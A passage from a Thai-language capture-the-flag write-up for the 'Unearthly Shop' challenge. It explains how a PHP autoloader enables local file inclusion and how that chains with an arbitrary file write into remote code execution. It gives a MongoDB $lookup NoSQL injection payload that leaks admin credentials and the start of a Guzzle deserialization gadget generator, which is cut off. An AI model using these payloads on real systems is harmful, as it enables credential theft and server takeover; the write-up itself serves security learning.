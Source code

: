 เรารู้ ๆ กันอยู่แล้วว่า function `spl_autoload_register` เป็นการอนุญาติให้ user ทำ LFI ได้ by design คือเป็นการ LFI ด้วยความตั้งใจของผู้สร้าง app เอง ถ้าเขียนดีดี เราจะไม่ถือว่ามันเป็นช่องโหว่ สำหรับใครที่ไม่เข้าใจการทำงานของ function `spl_autoload_register` สามารถไปอ่านได้ที่ [https://php.net/manual/en/function.spl-autoload-register.php](https://php.net/manual/en/function.spl-autoload-register.php) สรุปง่าย ๆ คือ function นี้จะถูกเรียกใช้เพื่อทำการ auto `include` หรือ `require` class จากไฟล์อื่นให้โดยที่เมื่อเราเขียน code php เยอะ ๆ เราประกาศ class ไว้หลาย ๆ ไฟล์มาก ๆ เราไม่จำเป็นต้องมา include มันทุกไฟล์เดียว function นี้มันจะ include ให้เราเอง ดังนั้นการทำ sandbox ที่ดีสำหรับ function นี้จึงเป็นเรื่องจำเป็นมาก ๆ อย่างในเคสนี้ ถ้ามองดีดีใน บรรทัดที่ 14 ได้มีการ set ตัวแปล `filename` ด้วย `/${name}.php` สำหรับ `/` ขึ้นต้น ใน php มันหมายถึง การที่เราไปเริ่มที่ root path ที่ file system ของ os เลย ทำให้ถ้าเราสามารถ manipulate `$name` ที่รับเข้ามาได้ รวมไปถึงมีการ replace จาก `_` เป็น `/` ให้ใจดีสุด ๆ เราเลยสามารถไป include file ที่ลงท้ายด้วย `.php` ที่ไหนก็ได้ในเครื่อง server ได้เลย เช่น ถ้าผมสร้าง object จาก class `www_frontend_vendor_autoload` (`$obj = new www_frontend_vendor_autoload();`) มันก็จะไป include file `/www/frontend/vendor/autoload.php` ให้เราได้เลย ถือเป็น LFI แล้ว

จากองประกอบทั้งหมด เมื่อเรามี primitive ดังต่อไปนี้คือ

- Arbitrary Write File
- Local File Inclusion

เราจึงสามารถสรุปได้ว่าเราสามารถทำ RCE เครื่อง server ได้แล้ว โดยการ write file `shell.php` ไว้ซักที่หนึ่ง จากนั้น LFI เข้าไปอ่านไฟล์นั้น ตัว LFI ก็จะไป execute ไฟล์ `shell.php` ที่เราเตรียมไว้ เป็นอันจบ

## รายละเอียดการโจมตี

### 1. โจมตีช่องโหว่ NoSQL Injection เพื่อ leak credential admin

ขั้นตอนนี้ไม่ยากเลยใช้ burp ยิงแล้วเติม `$lookup` operator ไปในการดึง product ซะดังภาพ

![Exploit NoSQL Injection](/images/uploads/writeup_cyber_apocalypse_2023_unearthly_shop/exploit_nosql_injection.png)

ก็แค่ใส่ operator ดังต่อไปนี้เข้าไปก็จะได้รหัส admin เข้าไปโจมตีและ

```json
{
   "$lookup": {
      "from":"users",
      "localField":"_id",
      "foreignField":"_id",
      "as":"yoyo"
   }
}
```

### 2. generate serialized object เตรียมไว้โจมตีช่องโหว่ Insecure Deserialization

ผมสร้างตัว generator ไว้

File: unearthly_shop_gadget_generator.php

```php
<?php

namespace GuzzleHttp\Cookie{
    class SetCookie
    {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
```